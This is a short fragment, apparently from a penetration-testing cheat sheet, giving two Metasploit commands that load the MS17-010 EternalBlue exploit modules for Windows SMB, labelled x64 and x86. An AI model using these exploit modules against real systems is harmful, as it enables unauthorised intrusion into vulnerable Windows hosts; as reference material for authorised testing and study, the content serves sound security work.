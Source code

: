 ## MS17-010 (EternalBlue) (x64)
```bash
msf6> use exploit/windows/smb/ms17_010_eternalblue
```
## MS17-010 (EternalBlue) (x86)
```bash
msf6> use exploit/windows/smb/ms17_010_psexec
```